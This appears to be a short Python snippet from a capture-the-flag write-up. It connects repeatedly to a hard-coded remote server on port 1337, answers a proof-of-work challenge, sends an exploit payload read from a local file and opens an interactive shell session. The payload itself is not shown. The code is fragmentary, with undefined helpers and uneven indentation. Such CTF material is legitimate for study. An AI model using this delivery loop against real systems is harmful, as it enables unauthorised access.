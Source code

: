 ```python
    ip="35.198.184.75"
io=None
def do_pow():
    print (io.recvuntil("./pow.py "))
    challenge=io.recvuntil("\n")[:-1].strip()
    print (challenge)
    response=solve_proof_of_work(challenge)
    print (response)
    io.recvuntil("Your response?")
    io.sendline(str(response))
while True:
    try:
        io=remote(ip,1337)
        if local==0:
            do_pow()
        fd=open("./sample.rb0")
        payload=fd.read()
        fd.close()
        io.sendline(payload)
        io.sendline("END_OF_PWN")
        io.interactive()
    except:
        continue
```



